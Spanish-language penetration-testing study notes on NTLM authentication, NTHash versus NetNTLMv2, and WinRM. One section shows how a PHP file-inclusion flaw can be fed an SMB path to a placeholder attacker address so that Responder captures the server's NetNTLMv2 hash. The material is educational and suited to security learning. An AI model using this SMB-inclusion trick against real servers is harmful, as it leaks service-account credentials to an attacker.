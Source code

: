 ### Autenticación NTLM (New Technology LAN Manager)
NTLM es una colección de protocolos de autenticación de desafío-respuesta de Microsoft, utilizados para autenticar clientes a recursos en un dominio de Active Directory. Es un tipo de inicio de sesión único (SSO).

**Proceso de autenticación NTLM:**

1.  **El cliente se presenta**: Envía nombre de usuario y dominio al servidor.
2.  **El servidor "desafía"**: Genera una cadena aleatoria (el "desafío") y la envía al cliente.
3.  **El cliente responde**: El cliente combina el desafío con un hash de su contraseña (NTLM hash) y lo encripta, enviando la "respuesta" resultante de vuelta al servidor. ¡Nunca se envía la contraseña real!
4.  **El servidor verifica**: El servidor, con el hash de la contraseña registrado, realiza la misma operación criptográfica con el desafío.
5.  **Comparación y autenticación**: Si el resultado del servidor coincide con la respuesta del cliente, la autenticación es exitosa.

### NTHash vs. NetNTLMv2
La terminología puede ser confusa:

* **Función Hash**: Una función unidireccional que toma datos y devuelve un valor de tamaño fijo (hash, digest, huella digital). Se usan para almacenar contraseñas de forma segura, ya que no se pueden revertir directamente.
* **NTHash**: Es el resultado del algoritmo usado para almacenar contraseñas en sistemas Windows (base de datos SAM, controladores de dominio). A menudo se le llama erróneamente "hash NTLM".
* **NetNTLMv2**: Cuando NTLM se autentica en red, usa un modelo de desafío/respuesta. Un desafío/respuesta NetNTLMv2 es una cadena formateada que incluye el desafío y la respuesta. Aunque no es un hash en sí mismo, se le ataca de la misma manera y comúnmente se le llama "hash NetNTLMv2" o incluso "NTLMv2".

### Excepción Peligrosa: URLs SMB y NTLM
Las directivas de PHP `allow_url_include` y `allow_url_fopen` (por defecto en `Off`) previenen que las funciones de inclusión de archivos carguen recursos remotos vía HTTP o FTP, lo cual es una buena práctica de seguridad.

Sin embargo, PHP **no previene** la carga de URLs SMB (Server Message Block), incluso con estas directivas en `Off`. SMB es un protocolo de red de Windows para compartir archivos.

Esto significa que si una aplicación PHP vulnerable intenta "incluir" una ruta SMB (ej., `\\TU_IP_ATACANTE\recurso_inexistente`), el sistema operativo Windows subyacente intentará conectarse al servidor SMB que se encuentre escuchando en esa IP. Durante este intento de conexión, el cliente Windows iniciará un proceso de autenticación NTLM con el atacante.

El sistema operativo Windows se autenticará con las credenciales de la cuenta de usuario bajo la cual se está ejecutando el servicio web (o el proceso PHP), y no con una contraseña "incorporada" en la aplicación PHP. Herramientas como Responder pueden simular un servidor SMB y capturar el hash NetNTLMv2 durante este proceso.

### WinRM (Windows Remote Management)
WinRM es un protocolo de administración remota nativo de Windows que usa SOAP para interactuar con computadoras y servidores remotos. Permite la comunicación, ejecución remota de comandos, monitoreo y configuración de sistemas. Para un pentester, obtener credenciales de un usuario con privilegios de gestión remota puede llevar a obtener una shell de PowerShell en el host.

---